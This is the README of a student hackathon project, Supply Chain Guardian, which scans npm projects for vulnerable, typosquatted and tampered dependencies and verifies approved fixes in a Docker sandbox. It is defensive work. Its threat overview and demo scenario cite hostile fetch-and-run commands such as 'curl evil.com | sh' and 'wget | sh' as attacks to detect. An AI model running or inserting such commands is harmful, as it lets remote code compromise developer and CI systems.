

**Amrita Vishwa Vidyapeetham × Bosch Global Software Technologies (BGSW) Hackathon**  
**Team 17:**  
**Avinash Pala** (BL.EN.U4AIE23062) · **Nandana Thachilath M** (CB.SC.U4AIE23151) · **SriSomesh** (CB.AI.U4AID23141)  
**Gowtham Kumaresan** (CB.AI.U4AID23009) · **Vijay Srinivas P** (CB.SC.U4AIE23263)

[🚀 Quick Start](#-quick-start) • [✨ Key Features](#-key-features) • [🧠 Architecture](#-system-architecture) • [🔬 The Attack Scenario](#-owasp-nodegoat-attack-scenario) • [🛠️ Verification & Sandbox](#-isolated-sandbox-verification) • [📊 Web UI](#-interactive-web-dashboard)

</div>

---

## 📌 Table of Contents
1. [Overview & The Supply Chain Dilemma](#-overview--the-supply-chain-dilemma)
2. [Key Capabilities](#-key-capabilities)
3. [System Architecture](#-system-architecture)
4. [The 6-Agent LangGraph Pipeline](#-the-6-agent-langgraph-pipeline)
5. [Deterministic Scoring & Responsible AI](#-deterministic-scoring--responsible-ai)
6. [Human-in-the-Loop Remediation](#-human-in-the-loop-remediation)
7. [Isolated Sandbox Verification](#-isolated-sandbox-verification)
8. [OWASP NodeGoat Attack Scenario](#-owasp-nodegoat-attack-scenario)
9. [Interactive Web Dashboard](#-interactive-web-dashboard)
10. [Quick Start & Usage](#-quick-start)
11. [Project Directory Layout](#-project-directory-layout)
12. [Day 1 & Day 2 Requirements Coverage](#-day-1--day-2-requirements-coverage)

---

## 🔍 Overview & The Supply Chain Dilemma

Modern cloud and web applications are typically composed of **10% custom business code and 90% third-party open-source packages**. When a developer or CI/CD runner executes `npm install`, hundreds of untrusted scripts and tarballs are fetched and executed.

Attackers no longer just probe network perimeters; they compromise the software supply chain:
* **Typosquatting:** Publishing lookalike packages (e.g., `expresss` instead of `express`) containing malicious payloads.
* **Dangerous Lifecycle Scripts:** Sneaking in shell execution (`curl evil.com | sh`, credential stealers) inside `preinstall` or `postinstall` hooks.
* **Integrity & Checksum Tampering:** Swapping package tarball hashes or diverting downloads to rogue mirrors.
* **Transitive Dependency Poisoning:** Hiding malware deep within indirect dependencies (e.g., the 2018 `event-stream` / `flatmap-stream` crypto-stealer).
* **Container & CI Misconfigurations:** Shipping containers as `root`, using floating `:latest` tags, and using dangerous GitHub Actions triggers like `pull_request_target` that expose repository secrets to untrusted forks.

**Supply Chain Guardian** provides a complete defense against these threats. It discovers all dependencies across manifests, verifies SBOMs, checks vulnerabilities against multiple databases, detects supply chain anomalies, scores risks deterministically, explains threats using Gemini AI, proposes surgical fixes, and proves them in an isolated Docker sandbox.

---

## ✨ Key Capabilities

* **Multi-Manifest Discovery & CycloneDX 1.5 SBOM:** Parses `package.json`, lockfiles (v1/v2/v3), Dockerfiles, and GitHub Actions workflows. Generates standard CycloneDX 1.5 JSON SBOMs and cross-verifies with **Anchore Syft**.
* **Radial Multi-Ecosystem Dependency Graph:** Powered by NetworkX and an integrated manifest engine (`guardian/deptree/`), tracing every package’s exact lineage and path from the root application.
* **Triangulated Vulnerability Scanning:** Batches queries across **OSV.dev**, **GitHub Advisory Database**, and **Google deps.dev** without requiring paid API keys.
* **Real-World Threat Intelligence:** Enriches findings with **CISA KEV** (Known Exploited Vulnerabilities — actively attacked in the wild), **FIRST EPSS** (Exploit Prediction Scoring System probabilities), and **OpenSSF Scorecards**.
* **Anomaly & Tamper Detection:** Catches typosquatting via Damerau-Levenshtein edit distance + npm weekly download count filtering, malicious install scripts, hash tampering, and insecure container/CI settings via static analysis and **Aqua Trivy**.
* **Baseline Differential Analysis:** Diffs current state against trusted snapshots to immediately surface injected, modified, or updated packages.
* **Deterministic 0–100 Risk Scoring:** Mathematical risk formula incorporating CVSS, runtime vs. dev scope, CI secret exposure, CISA KEV status, and EPSS scores.
* **Responsible AI Layer (Google Gemini Flash):** Translates complex findings into clear, plain-language attack summaries with strict anti-hallucination guardrails.
* **Surgical Remediation Planner:** Proposes precise `package.json` version bumps for direct dependencies and version-scoped npm `overrides` for transitive dependencies.
* **Hardened Docker Sandbox Verification:** Automatically tests approved fixes in an isolated container with all capabilities dropped (`--cap-drop ALL`), strict resource limits, and **zero network access** (`--network none`) for runtime dependency imports and test suites.
* **Git Branch Publishing & Audit Trail:** Pushes `-original` and `-fixed` branches to Git with detailed markdown reports (`BEFORE_AFTER.md`, `VERIFICATION.md`, `remediation.patch`, and CSV audit logs).

---

## 🧠 System Architecture

```
  ┌────────────────────────────────────────────────────────┐
  │                 DETERMINISTIC CORE                     │
  │  • Manifest & Lockfile Parsers (v1, v2, v3)            │
  │  • Graph Lineage Engine (NetworkX, Deptree)            │
  │  • Exploit Intel: CISA KEV, FIRST EPSS, OSV, deps.dev  │
  │  • Mathematical Risk Scorer (0 - 100)                  │
  └──────────────────────────┬─────────────────────────────┘
                             │ Verified Facts & Evidence
                             ▼
  ┌────────────────────────────────────────────────────────┐
  │                   AI REASONING LAYER                   │
  │  • Google Gemini Flash via LangChain                   │
  │  • Contextual attack narratives & triage explanations  │
  │  • Anti-hallucination guardrail (disallows fake CVEs)  │
  │  • Strictly cannot alter scores or write code          │
  └──────────────────────────┬─────────────────────────────┘
                             │ Actionable Context
                             ▼
  ┌────────────────────────────────────────────────────────┐
  │               HUMAN-IN-THE-LOOP & SANDBOX              │
  │  • Human approves or rejects proposed fixes in Web UI  │
  │  • Fixes applied ONLY to isolated sandbox workspace    │
  │  • Hardened Docker container verifies runtime & tests  │
  └────────────────────────────────────────────────────────┘
```

---

## 🤖 The 6-Agent LangGraph Pipeline

Supply Chain Guardian uses **LangGraph** to coordinate six specialized agents running in an asynchronous, fault-tolerant state graph:



### Agent Roles & Responsibilities

| # | Agent | Responsibility | Sources & Tools |
|---|---|---|---|
| **1** | **Discovery** | Parses manifests, classifies scopes (runtime/dev, direct/transitive), constructs the NetworkX dependency graph, generates CycloneDX 1.5 SBOM, and builds multi-ecosystem tree. | `guardian/discover.py`, `guardian/sbom.py`, `guardian/deptree/`, Syft |
| **2** | **Vulnerability** | Triangulates CVEs, GHSAs, and malicious packages per `name@version`, checking semver ranges and extracting fixed versions. | OSV.dev, GitHub Advisory DB, Google deps.dev |
| **3** | **Threat Intel** | Enriches findings with active exploitation data, exploit probability, package deprecation, license risks, and OpenSSF Scorecard metrics. | CISA KEV, FIRST EPSS, deps.dev |
| **4** | **Integrity** | Detects typosquatting, analyzes install scripts for shell execution, validates registry URLs and hashes, audits Dockerfiles and GitHub Actions, and scans containers. | Damerau-Levenshtein, npm downloads API, regex rules, Aqua Trivy |
| **5** | **Change Detection** | Runs when a baseline is provided: diffs lockfiles to identify newly injected packages, modified tarball hashes, and tampered scripts. | `guardian/anomalies.py`, baseline re-scan |
| **6** | **Risk & Explainer** | Calculates deterministic 0–100 risk scores, prioritizes Top-N findings, and prompts Google Gemini Flash to explain attack vectors with strict guardrails. | Deterministic scoring model, LangChain, Google Gemini |

---

## ⚖️ Deterministic Scoring & Responsible AI

### 1. Mathematical Risk Formula (0 – 100)
Risk scores are calculated by an explicit, auditable formula:

$$\text{Base Score} = \begin{cases} \text{CVSS} \times 10 & \text{if CVSS available} \\ 85 / 65 / 40 / 20 & \text{for CRITICAL / HIGH / MEDIUM / LOW anomalies} \\ 95 & \text{floor for malicious packages / malware} \end{cases}$$

**Score Modifiers:**
* **+10 pts:** Production runtime dependency (shipped in application image)
* **-25 pts:** Dev-only dependency (not bundled in production)
* **+10 pts:** CI/CD step containing secrets
* **+5 pts:** Direct dependency
* **+10 pts:** New package introduced compared to baseline
* **+5 pts:** No published fix available
* **+15 pts:** Listed in CISA KEV (actively weaponized in the wild)
* **+10 pts / +5 pts / -5 pts:** EPSS $\ge 50\%$ / $\ge 10\%$ / $< 1\%$

**Classification:** Critical ($\ge 80$), High ($\ge 60$), Medium ($\ge 35$), Low ($< 35$).

### 2. Responsible AI Guardrails
* **Facts vs. Inference:** Reports explicitly separate green "Verified Evidence" (facts) from purple "AI Inference" (explanations).
* **Anti-Hallucination Guardrail:** The LLM output is parsed by an automated validator; any CVE or advisory ID mentioned by the AI that was not present in the verified evidence is automatically stripped.
* **Token Budget & Fallback:** Only the Top-N findings are sent to Gemini to stay within free-tier budgets. If the API is unavailable, the system automatically uses deterministic offline explanation templates.

---

## 🛠️ Human-in-the-Loop Remediation

Rather than just listing problems, Guardian automatically computes surgical, minimal code fixes:
* **Direct Dependencies:** Bumps the version requirement in `package.json` (e.g., `"express": "^4.16.0"` $\to$ `"^4.19.2"`).
* **Transitive Dependencies:** Adds version-scoped npm `overrides` in `package.json`:
  ```json
  {
    "overrides": {
      "minimist@1.2.0": "1.2.6"
    }
  }
  ```
* **Human Approval:** Developers review proposed changes side-by-side in the web UI and explicitly **Approve** or **Reject** each fix. Decisions are permanently logged in `output/<repo>/approvals.json`.

---

## 🔬 Isolated Sandbox Verification

To prove that fixes do not break the application, Guardian executes an automated **9-step verification workflow** inside an isolated Docker sandbox (`guardian/verify.py`):

| Step | Operation | Security & Safety Measures |
|---|---|---|
| **1. Prepare** | Apply approved fixes to a sandbox copy | Original repository is never modified |
| **2. Lockfile Check** | Run `npm ls --package-lock-only` diff | Verifies dependency tree consistency |
| **3. Docker Setup** | Spin up isolated Node container | Drops all capabilities (`--cap-drop ALL`), `no-new-privileges`, CPU/memory limits |
| **4. Clean Install** | `npm ci --ignore-scripts` | Network enabled only for downloads; lifecycle scripts blocked |
| **5. Runtime Check** | Load every production dependency (`require`) | Container isolated with **`--network none`** |
| **6. Test Suite** | Execute `npm test` | Container isolated with **`--network none`** |
| **7. Usage Analysis** | Scan codebase for imports of upgraded packages | Identifies exact lines humans should double-check |
| **8. Re-Scan** | Re-run all 6 Guardian agents on sandbox code | Confirms vulnerabilities closed and no new risks introduced |
| **9. Verdict** | Generate final verdict | `verified`, `partly fixed`, `new risk`, `regression`, or `build failed` |

---

## 🎯 OWASP NodeGoat Attack Scenario

To demonstrate real-world detection capabilities, `scripts/make_scenario.py` creates a simulated attack against [OWASP NodeGoat](https://github.com/OWASP/NodeGoat) (1,479 dependencies, depth 13):

| Scenario | Injected Attack | How Guardian Detects It |
|---|---|---|
| **A** | `expresss` typosquat with install script | **Typosquat Agent:** Damerau-Levenshtein distance = 1 from `express` + npm weekly download count filter + lifecycle script warning. |
| **B** | `postinstall` running `curl ... \| sh` | **Integrity Agent:** Regex matches dangerous shell piping in package hooks. |
| **C** | `underscore` integrity hash tampered & diverted | **Baseline Diff:** Detects checksum mismatch and non-standard download registry. |
| **D** | `flatmap-stream@0.1.1` malware under `express` | **Vulnerability Agent:** Matches known malicious package advisory in OSV/GitHub Advisory DB. |
| **E** | Dockerfile with `node:latest`, `root`, `wget \| sh` | **Container CI Agent:** Flags floating tag, root execution, and shell downloads. |
| **F** | `release.yml` with `pull_request_target` & secrets | **CI Workflow Auditor:** Detects dangerous trigger exposing repository secrets to untrusted forks. |

---

## 📊 Interactive Web Dashboard

Launch the web app (`.\run_app.ps1`) to explore results interactively at **`http://127.0.0.1:8765`**:
* **The Journey:** A step-by-step narrative guiding non-technical stakeholders through the scan.
* **Files Explorer:** Interactive JSON tree viewer of the repository ingredients.
* **Dependency Graph:** Interactive network graph and radial multi-manifest visualizer.
* **Vulnerabilities Bubble Map:** Visual grouping of vulnerabilities by severity and package depth.
* **Suspicious Changes:** Detailed forensic case files of supply-chain tampering and anomalies.
* **Fixes & Remediation Console:** Side-by-side code diffs with one-click human approval.
* **Sandbox Verification Console:** Real-time container build, runtime, and test logs.
* **Final Report:** Clean, printable, executive-ready security report.

---

## 🚀 Quick Start

### 1. Prerequisites
- **Python 3.11+**
- **Git**
- *(Optional)* **Docker Desktop** (required for containerized sandbox verification)
- *(Optional)* **Aqua Trivy** & **Anchore Syft**:
  ```powershell
  winget install AquaSecurity.Trivy Anchore.Syft
  ```

### 2. Installation
```powershell
# Clone the repository and enter the directory
git clone https://github.com/your-org/Supply-Chain-Guardian.git
cd Supply-Chain-Guardian

# Install Python dependencies
python -m pip install -r requirements.txt
```

### 3. Optional: Configure Gemini AI
Create a `.env` file in the project root:
```env
GEMINI_API_KEY=your_google_gemini_api_key_here
GEMINI_MODEL=gemini-3.5-flash
```
*Note: If no API key is provided, Guardian seamlessly runs in offline deterministic mode.*

### 4. Run the Web Application
```powershell
.\run_app.ps1
```
*Or via Python directly:*
```powershell
python -m guardian serve --port 8765
```
Open **[http://127.0.0.1:8765](http://127.0.0.1:8765)** in your browser.

### 5. Run a CLI Scan
```powershell
python -m guardian scan `
  --target targets\nodegoat-modified `
  --baseline targets\nodegoat-baseline `
  --top 8
```

### 6. Run the Test Suite
Guardian includes 35 comprehensive offline tests (mocking all external APIs):
```powershell
python -m pytest tests
```

---

## 📁 Project Directory Layout

```
Supply-Chain-Guardian/
├── guardian/                      # Core Guardian package
│   ├── agents/                   # LangGraph multi-agent implementation
│   │   ├── discovery.py          # Inventory & SBOM agent
│   │   ├── vulnerability.py      # OSV & GitHub advisories agent
│   │   ├── intel.py              # CISA KEV & EPSS threat intel agent
│   │   ├── integrity.py          # Typosquats, scripts, Docker & CI agent
│   │   ├── change.py             # Baseline diffing agent
│   │   ├── risk.py               # Scoring & AI explanation agent
│   │   └── orchestrator.py       # LangGraph state machine & retries
│   ├── deptree/                  # Multi-ecosystem radial dependency graph
│   ├── web/                      # Frontend UI (HTML, CSS, JavaScript)
│   ├── static/                   # Dashboard assets
│   ├── templates/                # Report templates
│   ├── data/                     # Popular npm package lists for typosquatting
│   ├── advisories.py             # GitHub Advisory DB queries
│   ├── anomalies.py              # Typosquats, malicious scripts, baseline diffs
│   ├── cli.py                    # CLI entry point
│   ├── container_ci.py           # Dockerfile & GitHub Actions static auditing
│   ├── depsdev.py                # Google deps.dev client
│   ├── discover.py               # Manifest & lockfile parser
│   ├── explain.py                # AI prompt construction & guardrails
│   ├── graph.py                  # NetworkX dependency graph engine
│   ├── llm.py                    # Gemini client with fallback & caching
│   ├── models.py                 # Dataclasses (Finding, Component, Evidence)
│   ├── pipeline.py               # Scan pipeline with live event streaming
│   ├── publish.py                # Git branch publisher & PR creator
│   ├── remediation.py            # Fix planner & patch generator
│   ├── repo.py                   # Git clone, lockfile generation, snapshots
│   ├── report.py                 # HTML & JSON report writer
│   ├── risk.py                   # Deterministic 0-100 risk scoring engine
│   ├── sbom.py                   # CycloneDX 1.5 JSON & Syft cross-check
│   ├── semver.py                 # Semver parsing & comparison logic
│   ├── server.py                 # Flask server & REST API
│   ├── threat_intel.py           # CISA KEV & FIRST EPSS clients
│   ├── track.py                  # Before/after markdown & CSV tracking
│   ├── verify.py                 # 9-step Docker sandbox verification engine
│   └── vulns.py                  # OSV.dev batch vulnerability scanner
├── output/                       # Generated reports, SBOMs, snapshots & patches
├── scripts/
│   ├── make_scenario.py          # Generates NodeGoat attack scenario
│   ├── check_llm.py              # Tests Gemini API connectivity
│   └── list_models.py            # Lists available Gemini models
├── targets/                      # Target repositories (baseline & modified)
├── tests/                        # 35 offline unit & integration tests
├── requirements.txt              # Python dependencies
├── run_app.ps1                   # Web app startup script
├── run_day1.ps1                  # Demonstration CLI scan script
├── README.md                     # This file
└── README_EXPLAINED.md           # Step-by-step technical architecture guide
```

---

## 📋 Day 1 & Day 2 Requirements Coverage

| Hackathon Requirement | Status | Where Implemented |
|---|:---:|---|
| **Analyse manifests and lockfiles (direct & transitive)** | ✅ Covered | `guardian/discover.py`, `guardian/deptree/` |
| **CycloneDX 1.5 SBOM + Syft Cross-Check** | ✅ Covered | `guardian/sbom.py`, `output/sbom.cdx.json` |
| **Interactive Dependency Graph & Lineage** | ✅ Covered | `guardian/graph.py`, Web UI Network Graph |
| **Container & CI/CD Security Inspection** | ✅ Covered | `guardian/container_ci.py`, Trivy scan of `node:12-alpine` |
| **Known Vulnerabilities (CVE/GHSA/CVSS/Fixes)** | ✅ Covered | `guardian/vulns.py`, OSV.dev, GitHub Advisory DB |
| **Supply Chain Anomalies (Typosquats, Scripts, Hashes)** | ✅ Covered | `guardian/anomalies.py`, `guardian/data/popular_npm.txt` |
| **Separation of Evidence vs. AI Inference** | ✅ Covered | Green "Verified evidence" vs purple "AI inference" blocks |
| **Deterministic Risk Scoring (0–100)** | ✅ Covered | `guardian/risk.py` (+ CISA KEV & EPSS exploit intel) |
| **Human-in-the-Loop Fix Approval** | ✅ Covered | `guardian/remediation.py`, `output/<repo>/approvals.json` |
| **Isolated Docker Sandbox Verification** | ✅ Covered | `guardian/verify.py` (`--network none`, runtime test) |
| **Git Branch Publishing & PR Generation** | ✅ Covered | `guardian/publish.py`, `guardian/track.py` |
